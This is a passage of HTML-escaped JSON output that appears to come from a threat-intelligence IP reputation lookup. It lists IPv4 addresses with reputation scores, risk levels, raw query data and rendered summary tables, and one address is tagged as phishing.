&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;40.113.110.67&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;19&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.183.33.217&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;185.183.33.217&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3115786713,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 16,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;185.183.33.217&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.68.88&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.67.68.88&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 910378072,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 15,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.67.68.88&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;15&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.66.84.207&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 34,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;20.66.84.207&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 339891407,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 34,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;20.66.84.207&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;34&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.99.16.226&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;40.99.16.226&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 677581026,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;40.99.16.226&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 10,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1746212031,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 10,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_mask&quot;: 128,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain&quot;: &quot;104.21.20.191&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;domain_age&quot;: &quot;-1&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_count&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;current_release_date&quot;: 1697959542,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;first_release_date&quot;: 1678413936,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;last_release_date&quot;: 1678413936,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 1,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;threat_category&quot;: &quot;Phishing&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;104.21.20.191&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;10&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;Phishing&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;1&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1681915910,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;100.64.0.6&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;100&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.47.10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;23.192.47.10&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 398470922,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;23.192.47.10&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3427780079,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;204.79.197.239&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;81&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;5&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;65.9.42.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 80,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 3,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;65.9.42.42&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1091119658,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; 